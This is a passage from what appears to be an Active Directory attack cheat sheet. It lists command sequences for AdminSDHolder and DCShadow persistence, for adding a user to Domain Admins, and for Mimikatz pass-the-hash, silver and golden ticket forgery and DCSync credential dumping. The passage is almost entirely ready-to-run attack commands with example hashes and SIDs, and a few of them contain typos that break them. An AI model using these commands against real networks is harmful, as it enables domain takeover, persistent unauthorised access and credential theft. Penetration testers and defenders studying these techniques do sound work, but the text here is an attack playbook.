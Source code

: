 ### AdminSDHolder Persistence
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistence

DCShadow is persistence technique used by adversary that allow  an adversary to push unauthorized changes into the environment by modifying active directory objects. to carry out such a persistence technique two active administrative session is required.one of which has to be domain privilege session and one of another session has to be system privilege session where compromised box.
```
!processtoken
lsadump::dcshadow /object:MeMe /attribute:url /value:acmebank.local
lsadump::dcshadow /push

lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
### Mimikatz 

| Pass-the-Hash  |
| ------------- |
|Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:ninja.corp  /target:ninja.corp /ntlm:a87f3a337d73085c45f9416be5787d86 /ptt "'|

|Silver Tickets  |
| ------------- |
|kerberos::golden /user:Administrator /domain:testlab.local /sid:S-1-5-21-1516486103-3973840447-1748718438 /target:ninja.corp  /rc4:47b1d9d581f29b3b43845692bd4a0322 /service:cifs /ptt|

|Golden Tickets |
| ------------- |
|Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:evil /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|Invoke-Mimikatz -Command '"kerberos::golden /user:MeMe /domain:ninja.corp /sid: S-1-5-21-3107064655-183826745-1492997513 /krbtgt:a89f4db26e65cdf4bb6cb6c1a1990eec /ptt" '|
|kerbeos::golden /user:Administrator /krbtgt:HASH_KRBTGT /domain:ninja.corp /sid:S-1-5-21-2941561648-383941485-1389968811 /sids:S-1-5-SID-SECOND-DOMAIN-519 /ptt|

|DCSync |
| ------------- |
|lsadump::dcsync /domain:pentestlab.local /all /csv|
|Invoke-Mimikatz -Command '"lsadump::dcsync /domain:insomnia.ninja.corp /all /csv"'|
|Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'|
|Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'|
